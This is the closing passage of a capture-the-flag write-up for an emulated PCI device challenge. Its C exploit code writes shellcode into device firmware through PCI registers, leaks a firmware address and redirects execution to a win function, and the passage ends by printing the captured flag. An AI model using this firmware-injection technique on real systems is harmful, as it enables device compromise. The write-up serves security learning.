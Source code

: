 ```c
	{
		set_fw_w_addr(i);
		write_byte(*(uint64_t *)&shellcode[i]);
	}

	uint64_t rsp_off = 0x100000 + 0x28;
	pciwrite(0x50, rsp_off);
	pciwrite(0x128, 1);

	uint64_t leak = pciread(0x58);
	printf("firmware [] = %llx\n", (unsigned long long int)leak);

	// second part
	uint64_t offset_ret = 0xffffffffffda7e23;
	uint64_t offset_win = 0xffffffffffda869c;
	pciwrite(0x50, rsp_off);
	pciwrite(0x58, leak + offset_ret);
	pciwrite(0x60, rsp_off + 8);
	pciwrite(0x68, leak + offset_win);

	for (size_t i = 0; i < SHELLCODE_LEN1; i += 8)
	{
		set_fw_w_addr(i);
		write_byte(*(uint64_t *)&shellcode1[i]);
	}
	pciwrite(0x128, 1);
}
```

In the end, we transferred our driver and cli tool and got the flag `TFCCTF{7h4nk_y0u_c4d37_y0u_w0n_7h3_3mu_w4r_92u83cj545d}`

![Flag](./images/flag.png)
